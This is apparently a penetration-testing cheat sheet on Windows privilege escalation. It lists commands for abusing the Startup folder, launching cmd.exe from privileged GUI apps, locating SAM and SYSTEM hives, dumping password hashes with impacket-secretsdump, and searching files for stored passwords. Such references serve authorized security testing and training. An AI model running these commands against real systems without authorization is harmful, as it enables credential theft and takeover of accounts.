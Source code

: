 ## Startup Apps

```bash
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp #Startup applications can be found here
#Check writable permissions and transfer
#The only catch here is the system needs to be restarted
```

## Insecure GUI apps

```bash
#Check the applications that are running from "TaskManager" and obtain list of applications that are running as Privileged user
#Open that particular application, using "open" feature enter the following
file://c:/windows/system32/cmd.exe 
```

## SAM and SYSTEM

- Check in following folders

```bash
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

C:\windows.old

#First go to c:
dir /s SAM
dir /s SYSTEM
```

- Obtaining Hashes from SYSTEM and SAM

```bash
impacket-secretsdump -system SYSTEM -sam SAM local #always mention local in the command
#Now a detailed list of hashes are displayed
```

## Passwords

### Sensitive files

```bash
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
Findstr /si password *.config 
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*
```
